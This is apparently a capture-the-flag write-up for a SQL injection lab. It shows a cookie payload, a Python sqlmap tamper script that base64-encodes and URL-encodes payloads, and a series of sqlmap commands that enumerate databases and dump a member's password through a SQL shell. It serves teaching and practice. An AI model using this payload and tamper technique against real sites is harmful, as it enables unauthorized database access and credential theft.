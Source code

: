 # Challenge #2 - Poema Reading club 6

## Objectives

- You want to exploit an Error based SQL injection manually in order to dump data from the database. You will have to first determine the remote DB version, current user and selected database. Then proceed to schema enumeration and data dump
- Find out Ruud password in the database

## Hints

- MySQL
- Cookie Manipulation

## What you will learn

- How to find SQL injection vulnerabilities manually
- How to determine if a SQL injection is of type "blind" or "error based"
- How to extract information from a database using error based techniques and only a web browser

## Steps

The vulnerable point in on the cookie userchl2_info. Open any page and look on burp suite for the cookie.

Target url:
http://2.challenge.sqli.site/index.php

userchl2_info=%7B%22last_book%22%3A%22MQ%3D%3D%22%2C%22userchl2%22%3A%22%22%7D

Decoding the text from URL to see it in clean text.

userchl2_info={"last_book":"MQ==","userchl2":""}

Decoding MQ== from base64 you will get the number 1.

Replace the cookie for the payload below.

userchl2_info={"last_book":"' or '1'='1","userchl2":""}

Now, intead of sending 1, you will send "' or '1'='1" as last book.

Observe that the return message now has an mysql error message.

mysql_fetch_assoc() expects parameter 1 to be resource, boolean given in <b>/var/www/challenge.sqli.site/2/sidebar.php

To send this payload to SQLMap we will need a special tamper to convert the payload to base64, rebuild the cookie json and url encode it.

Create a file tamper.py with the code below.

#!/usr/bin/env python
import base64
import urllib.parse

def tamper(payload, **kwargs):
    params = '{"last_book":"%s","userchl2":""}' % base64.b64encode(payload.encode()).decode()
    data = urllib.parse.quote_plus(params)
    return data

Create an *empty* file __init__.py in the same directory of the tamper.py

In the command below, replace the session cookie sid and send to SQLMap.

sqlmap -u "http://2.challenge.sqli.site/index.php" --cookie="sid=e75aa278-1b4e-11ec-b0bf-710c194eec7f; userchl2_info=*" --skip='PHPSESSID' --batch  --thread 10  --dbms='mysql' --level=3 --tamper tamper.py --technique T

After a few momments SQLMap will return the vulnerable parameter.

(custom) HEADER parameter 'Cookie #1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 977 HTTP(s) requests:
---
Parameter: Cookie #1* ((custom) HEADER)
    Type: time-based blind
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace
    Payload: Cookie: sid=e75aa278-1b4e-11ec-b0bf-710c194eec7f; userchl2_info=(CASE WHEN (5925=5925) THEN SLEEP(5) ELSE 5925 END)
---

List all databases.

sqlmap -u "http://2.challenge.sqli.site/index.php" --cookie="sid=e75aa278-1b4e-11ec-b0bf-710c194eec7f; userchl2_info=*" --skip='PHPSESSID' --batch  --thread 10  --dbms='mysql' --level=3 --tamper tamper.py --technique T --dbs

available databases [2]:
[*] databasechl2
[*] information_schema

List all tables from databasechl2.

sqlmap -u "http://2.challenge.sqli.site/index.php" --cookie="sid=e75aa278-1b4e-11ec-b0bf-710c194eec7f; userchl2_info=*" --skip='PHPSESSID' --batch  --thread 10  --dbms='mysql' --level=3 --tamper tamper.py --technique T -D databasechl2 --tables

Database: databasechl2
[2 tables]
+--------------+
| books        |
| club_members |
+--------------+

This SQL injection is very slow, so I choose enter on the os-shell and send a SQL command to retrieve only the Ruud user.

sqlmap -u "http://2.challenge.sqli.site/index.php" --cookie="sid=e75aa278-1b4e-11ec-b0bf-710c194eec7f; userchl2_info=*" --skip='PHPSESSID' --batch  --thread 10  --dbms='mysql' --level=3 --tamper tamper.py --technique T --sql-shell

sql-shell> select * from databasechl2.club_members where name = 'Ruud';

retrieved: 12
retrieved: Ruud
retrieved: HOO93MSH6EK
retrieved: feugiat@nonsollicitudin.org
retrieved: 73544
